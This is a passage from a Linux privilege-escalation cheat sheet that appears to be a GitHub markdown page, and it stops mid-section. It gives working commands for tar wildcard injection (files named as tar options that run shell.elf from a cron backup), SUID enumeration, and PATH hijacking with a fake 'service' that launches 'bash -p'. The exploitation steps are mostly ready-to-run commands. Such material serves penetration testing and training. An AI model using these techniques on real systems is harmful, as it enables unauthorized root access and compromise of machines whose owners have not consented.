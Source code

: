 Backup scripts often use `tar` to create compress files. If using tar with wildcard (\*), wildcard injection technique can be used to exploit.

Create 2 files with names: `--checkpoint=1` and `--checkpoint-action=exec=shell.elf`

```sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```

Wait for cron job to compress files. The tar command will interpret files `--checkpoint=1` and `--checkpoint-action=exec=shell.elf` as 2 options instead of file names.

See more exploits at [https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks)

> _**NOTE:**_ Can use this exploit with SUID

### SUID/SGID

The SUID/SGID allows files to be executed with the permission level of the file owner or the group owner.

Enumerate for SUID

```sh
find / -perm -u=s -type f 2>/dev/null
```

#### SUID Known Exploits

See how to exploit on [GTFOBins](https://gtfobins.github.io/) and [ExploitDB](https://www.exploit-db.com/)

#### SUID Environment variables

Use `strings` to look for relative path program. Example: call `service` instead of `/usr/bin/service`

```sh
strings /usr/bin/suidprogram
```

Then, create a fake program

```sh
echo "bash -p" > /tmp/service
```

Add /tmp to `$PATH`

```sh
export PATH=/tmp:$PATH
```

Finally, run the SUID

#### Dynamic Library Hijacking

Check SUID share library
